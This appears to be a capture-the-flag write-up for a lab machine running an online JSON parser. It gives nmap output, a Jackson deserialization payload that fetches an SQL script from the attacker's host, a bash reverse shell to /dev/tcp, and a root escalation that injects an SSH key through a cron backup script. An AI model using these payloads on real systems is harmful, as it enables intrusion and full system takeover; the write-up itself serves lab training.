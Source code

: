 # time

nmap
-----
```
Nmap scan report for 10.10.10.214
Host is up (0.043s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=1/3%OT=22%CT=1%CU=39776%PV=Y%DS=2%DC=T%G=Y%TM=5FF1F039
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11
OS:NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   45.51 ms 10.10.14.1
2   45.60 ms 10.10.10.214
```


The website
-----
![Image](images/img1.png?raw=true)

As we can see the site using fasterxml to parse the json input.


Possible vulnerabilities
-----
https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#jackson-json


user shell
-----

Jackson gadgets - Anatomy of a vulnerability.

https://blog.doyensec.com/2019/07/22/jackson-gadgets.html


JSON input for triggering the reverse shell:
```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.34:8000/inject.sql'"}]"
```

inject.sql
```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.14.37/1337 0>&1')
```

1. Start an http server for inject.sql
```
python3 -m http.server
```

2. Start nc to catch the reverse shell
```
nc -nvlp 4444
```

3. Use the JSON input on the site. (Choose the "Validate beta!" mode)

4. Stabilize the shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")'

ctrl-z

stty raw -echo

fg

reset

xterm
```
![Image](images/img2.png?raw=true)


root shell
-----

We can use pspy64 to see what processes are running.

```
2021/01/03 17:07:01 CMD: UID=0    PID=9994   | zip -r website.bak.zip /var/www/html
2021/01/03 17:07:01 CMD: UID=0    PID=9993   | /bin/bash /usr/bin/timer_backup.sh
2021/01/03 17:07:02 CMD: UID=0    PID=9995   | mv website.bak.zip /root/backup.zip
```

There is a scheduled crontab job which is running a backup script as root.\
Every command is executed with root permissions inside the timer_backup.sh

1. generate an ssh key

2. Add the the following line to timer_backup.sh with your own public key.
```
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIN/SZ4pTmGLtk8FkFtfml9/mwtlG7XlBqjON9KT05kzE root@noobie" >> /root/.ssh/authorized_keys
```
![Image](images/img3.png?raw=true)

3. ssh in as root.

![Image](images/img4.png?raw=true)
